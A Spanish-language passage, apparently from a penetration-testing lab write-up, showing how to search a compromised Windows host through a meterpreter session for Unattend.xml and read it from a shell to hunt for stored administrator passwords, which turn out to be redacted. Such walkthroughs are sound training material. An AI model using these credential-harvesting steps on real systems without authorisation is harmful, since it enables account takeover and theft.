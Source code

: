 <br>

Resulta que en este archivo, es posible que podamos encontrar la contraseña en texto claro o cifrada en **base64** de algún usuario.

Podemos buscar este archivo desde el **meterpreter** con el comando **search**:
```bash
meterpreter > search -f Unattend.xml
Found 1 result...
=================

Path                             Size (bytes)  Modified (UTC)
----                             ------------  --------------
c:\Windows\Panther\unattend.xml  9658          2024-03-28 10:35:48 -0600
```
Obtuvimos la ruta.

Para que puedas leer el archivo, debes abrir una shell:
```batch
meterpreter > shell
.Process 1828 created.
Channel 3 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\Admin\Desktop>
C:\Users\Admin\Desktop>cd C:\Windows\Panther\
cd C:\Windows\Panther\
C:\Windows\Panther>type unattend.xml
type unattend.xml
<?xml version='1.0' encoding='utf-8'?>
<unattend xmlns="urn:schemas-microsoft-com:unattend" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State">

    <settings pass="windowsPE" wasPassProcessed="true">
...
...
...
    <settings pass="oobeSystem" wasPassProcessed="true">
        <component name="Microsoft-Windows-Shell-Setup" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS">
            <AutoLogon>
                <Password>*SENSITIVE*DATA*DELETED*</Password>
                <Enabled>true</Enabled>
                <Username>Admin</Username>
            </AutoLogon>

            <UserAccounts>

                <AdministratorPassword>*SENSITIVE*DATA*DELETED*</AdministratorPassword>

                <LocalAccounts>
                    <LocalAccount wcm:action="add">
                        <Name>Admin</Name>
                        <DisplayName>Admin</DisplayName>
                        <Group>administrators;users</Group>
                        <Password>*SENSITIVE*DATA*DELETED*</Password>
                    </LocalAccount>
                </LocalAccounts>
```
Parece que estaba la contraseña del **usuario Admin**, pero fue eliminada de este archivo.
